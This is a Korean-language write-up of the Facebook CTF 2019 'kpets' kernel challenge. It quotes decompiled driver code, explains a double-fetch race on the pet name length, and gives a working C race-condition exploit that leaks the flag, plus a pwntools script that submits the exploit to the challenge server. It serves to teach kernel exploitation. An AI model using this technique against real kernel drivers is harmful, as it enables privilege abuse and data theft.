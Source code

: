 ```yaml
---
title: Facebook CTF 2019 - kpets
date: 2019-06-05 15:00:53
categories:
- Kernel Exploit
- CTF write up
tags:
- Race condition
- TOCTOU
---
```


```sh
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
  
kpets: loading out-of-tree module taints kernel.
kpets: initializing stuff
kpets: welcome to Kernel Pets Simulator!                                              
```

간단한 커널문제다.


```c
  copy_from_user(&nlen, &in->nlen, 4LL);
  if ( nlen > 0x20 )
  {
    printk("kpets: invalid pet name len: 0x%02x\n");
    return v11;
  }
```

write 함수를 보면 20번째 줄 쯤에 name length를 받아오는데 이게 0x20보다 크면 return 시킨다.



```c
...
    copy_from_user(&idx, nnlen, 4LL);
 ...
```

근데 77번째 줄에서 또 name length를 받아온다. ??????? 여기서 toctou가 발생한다.



```c
    do
    {
      --max;
      v9 = (v9 - 108);
      if ( max == -1 )
      {
        for ( i = first_slot->name; ; t = i[-1].t )
        {
          if ( t )
          {
            printk("Next pet\n");
            type = i[-1].t;
            switch ( type )
            {
              case 0xC1:
                printk("Type: cat\n");
                break;
              case 0xC2:
                printk("Type: sheep\n");
                break;
              case 0xC0:
                printk("Type: dog\n");
                break;
              default:
                printk("Type: unknown\n");
                break;
            }
            printk("Name: %s\n");
            printk("Description: %s\n");
          }
          --v4;
          --i;
          if ( v4 == -1 )
            break;
        }
        return 0LL;
      }
    }
    while ( v9->type != 0xAAu );
```

또 read함수에서 type 이 0xaa 가 아니면 printk로 pet의 정보를 출력해주는데 문제는 return 을 한다.



```c
  if ( a3 <= 41 )
  {
    if ( copy_to_user(v7, flag) )
    {
      result = -14LL;
    }
    else
    {
      *v6 += v17;
      result = v17;
    }
  }
```

return 밑에 flag 받아오는 코드가 있기 때문에 출력하는 구문으로 가면 안된다.



```c
  if ( (v12 + 0x40) > 1u && v12 != 0xC2u )
  {
    printk("kpets: invalid pet type: 0x%02hhx\n");
  }
```

근데 write 함수에서 type이 0xc2가 아니면 유효한 type이 아니라면서 저장을 안해준다. 로직이 너무 이상하다ㅠ

race condition으로 name length를 크게 만들어 다음 type을 0xaa로 만든 뒤 flag를 가져오도록 코드를 짜면된다.



## poc.c

```c
// gcc -o poc poc.c -static -pthread
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <pthread.h>

typedef struct pet{

	char type;
	int nlen;
	char name[0x20];
	int dlen;
	char desc[0x40];
	char fake;

} Pet;

int fd;
Pet pet1;
pthread_t race;

void race_con(){
    
	while(1){
		pet1.nlen = 0x80;		
	}
    
}

int main(){

	char flag[0x100];
	int i = 0;

	memset(&flag,0,0x100);

	pet1.type = 0xc2;
	pet1.nlen = 0x20;
	memset(&pet1.name,0x77,0x20);
	pet1.dlen = 0x40;
	memset(&pet1.desc,0x61,0x40);
	pet1.fake = 0xaa;

	fd = open("/dev/kpets",O_RDWR);

	pthread_create(&race,0,&race_con,0);

	while(i<100){
        
		i++;
		pet1.nlen = 0x20;
		write(fd, &pet1, 0x70);
		read(fd, &flag, 0x100);
		printf("try %d:: %s\n",i,flag);
	
	}

}

```



## pow.py

```python
from pwn import *
import md5

w = remote("134.209.40.42",1337)

alpha = string.lowercase + string.uppercase + string.digits
url = "my_file_url"

def rand_string(length):
    return ''.join([random.choice(alpha) for _ in range(length)])

def solve(p):
    while True:
        att = rand_string(5)
        md = md5.new(att).digest()
        if p == md[:3]:
            print('Solution: {}'.format(att))
            return att

w.recvline()
w.recvuntil("== ")
poww = w.recv(3)

w.sendline(solve(poww))
w.sendline("Y")
w.sendline(url)
w.sendline("/bin/exploit")
w.interactive()

```


```sh
/ # ./init 
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
                                                   
/ $ ./poc
try 1:: 
try 2:: fb{***********************************}

try 3:: fb{***********************************}
...
```

대회 끝나고 푼거라 init 직접 실행시켜줘야 한다..ㅎㅎ 서버에서 실행하려면 pow.py 실행하면 된다.

poc 코드를 실행시키면 예쁘게 flag가 나온다.



대회 중에 푼 asciishop, babylist, otpserver, overfloat, r4nk 문제 exploit 코드는 <https://github.com/wally0813/write-up/tree/master/ctf/2019/facebook> 에 올려 놨다.

